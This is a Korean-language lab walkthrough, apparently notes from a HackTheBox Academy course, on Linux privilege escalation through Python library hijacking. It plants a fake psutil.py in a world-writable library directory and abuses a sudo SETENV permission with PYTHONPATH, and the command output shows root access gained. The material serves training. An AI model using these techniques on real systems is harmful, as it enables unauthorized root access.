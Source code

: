잘못 구성된 디렉토리 권한 확인

```powershell
htb-student@lpenix:~$ ls -la /usr/lib/python3.8

total 4916
drwxr-xrwx 30 root root  20480 Dec 14 16:26 .
...SNIP...
```

하이재킹된 모듈 [psutil.py](http://psutil.py) (/usr/lib/python3.8 에 업로드)

```powershell
#!/usr/bin/env python3

import os

def virtual_memory():
    os.system('id')
```

권한 상승

```powershell
htb-student@lpenix:~$ sudo /usr/bin/python3 mem_status.py

uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
  File "mem_status.py", line 4, in <module>
    available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total
AttributeError: 'NoneType' object has no attribute 'available' 
```

## PYTHONPATH 환경 변수

파이썬이 가져올 모듈을 검색할 수 있는 디렉터리를 나타내는 환경 변수는 PYTHONPATH이다. sudo 권한을 확인했을 때, 파이썬 바이너리에 대한 환경 변수를 설정할 수 있는 권한이 있다면 exploit이 가능하다.

**sudo 권한 확인**

```powershell
htb-student@lpenix:~$ sudo -l 

Matching Defaults entries for htb-student on ACADEMY-LPENIX:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin

User htb-student may run the following commands on ACADEMY-LPENIX:
    (ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3
```

→ SETENV: 플래그를 설정하여 이 바이너리에 사용할 환경 변수를 설정할 수 있다.

**PYTHONPATH 환경 변수를 통한 권한 상승**

```powershell
htb-student@lpenix:~$ sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py

uid=0(root) gid=0(root) groups=0(root)
...SNIP...
```